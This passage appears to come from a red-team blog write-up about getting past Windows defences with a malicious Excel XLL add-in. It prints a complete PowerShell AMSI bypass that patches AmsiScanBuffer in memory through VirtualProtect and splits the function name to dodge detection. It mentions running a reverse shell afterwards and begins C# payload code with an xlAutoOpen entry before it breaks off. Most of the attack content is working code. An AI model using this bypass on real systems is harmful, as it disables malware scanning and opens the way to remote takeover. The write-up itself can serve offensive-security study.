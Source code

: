 This might not be detected because of the trust issues. This is an official Microsoft signed DLL it may be the reason why it was not detected also this doesn't use the traditional PowerShell process. At the end of the day everything is a human created software:wink:.

So we planned to bypass the AMSI using this DLL via PowerShell scripts.

#### &#x20;Final XLL Payload

We created a new PowerShell Object and invoked the commands using this object. The first command is a basic AMSI bypass specified over [here](https://payatu.com/blog/arun.nair/amsi-bypass). We first get the address of the "**AmsiScanBuffer**" using the ""**GetProcAddress**" function on the "**Amsi.dl**l" handle. We then change the memory protection of this region to RW(Read Write). Then we overwrite the first line of this function using "**ret**" statement. Finally we change the memory protection to previous state. All of these Win32 API calls were not alerted by the EDR and ASR.

Then we run our basic PowerShell reverse shell payload to get the control over the server. Below is the code for AMSI bypass.

```
$code = @"
using System;
using System.Runtime.InteropServices;

public class WinApi {
	
	[DllImport("kernel32")]
	public static extern IntPtr LoadLibrary(string name);
	
	[DllImport("kernel32")]
	public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
	
	[DllImport("kernel32")]
	public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out int lpflOldProtect);
	
}
"@

Add-Type $code
$amsiDll = [WinApi]::LoadLibrary("amsi.dll")
$asbAddr = [WinApi]::GetProcAddress($amsiDll, "Ams"+"iScan"+"Buf"+"fer")
$ret = [Byte[]] ( 0xc3, 0x80, 0x07, 0x00,0x57, 0xb8 )
$out = 0

[WinApi]::VirtualProtect($asbAddr, [uint32]$ret.Length, 0x40, [ref] $out)
[System.Runtime.InteropServices.Marshal]::Copy($ret, 0, $asbAddr, $ret.Length)
[WinApi]::VirtualProtect($asbAddr, [uint32]$ret.Length, $out, [ref] $null)
```

Below is the final XLL payload.

```
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Management.Automation.Runspaces;

namespace Redteam
{
    public class Redteam
    {

        [DllExport]
        static void xlAutoOpen()
        {
```